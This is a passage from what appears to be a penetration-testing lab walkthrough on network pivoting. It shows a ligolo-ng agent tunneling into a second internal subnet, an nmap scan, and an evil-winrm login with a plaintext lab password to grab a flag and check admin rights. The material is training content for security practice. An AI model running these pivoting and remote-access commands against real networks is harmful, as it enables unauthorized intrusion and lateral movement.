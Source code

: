 On **PIVOT-SRV01**, upload the Windows agent and connect to the first pivot host’s internal IP:

```powershell
agent.exe -connect 172.16.5.15:11601 -ignore-cert
```

Now set up the new interface:

```bash
ligolo-ng » session
ligolo-ng » interface_create --name lig6
[Agent: ...] » tunnel_start --tun lig6
[Agent: ...] » route add 172.16.6.0/24

sudo ip route add 172.16.6.0/24 dev lig6
```

You now have visibility into the second internal network.

---

### Enumerating Internal Network 2

Quick targeted scan:

```bash
sudo nmap -n -Pn -T4 -sS --max-retries 1 --min-rate 1500 \
  -p 445,5985,3389,135,139,88,389 --open 172.16.6.0/24
```

Result:

```
Host: 172.16.6.25
Ports: 135, 139, 445, 3389, 5985 open
```

---

### Internal Network 2 – 172.16.6.25 (ACADEMY-PIVOT-D)

Connect using Evil-WinRM or RDP:

```bash
evil-winrm -i 172.16.6.25 -u vfrank -p 'Imply wet Unmasked!'
```

Grab the flag:

```powershell
type C:\flag.txt
'--- SNIP ---'
```

Network configuration shows access to another subnet (`172.16.10.0/24`), confirming this host connects toward the domain controller.

User enumeration confirms domain admin rights:

```powershell
net localgroup administrators
```
